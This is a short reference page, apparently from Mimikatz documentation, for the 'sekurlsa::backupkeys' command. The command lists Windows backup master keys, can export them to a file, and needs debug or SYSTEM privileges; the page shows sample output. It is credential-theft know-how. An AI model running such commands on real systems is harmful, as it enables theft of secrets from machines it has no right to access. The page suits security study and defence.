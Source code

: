 # backupkeys

`sekurlsa::backupkeys` lists the preferred Backup Master keys. It has the following command line argument:

* `/export`: save the keys to a file

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::backupkeys

Current prefered key:       {557ab280-17fe-6ce9-8590-52cf907df75e}

Compatibility prefered key: {ad25fae4-a7f2-c7a0-1a9c-4c6f8b5ad34f}
```
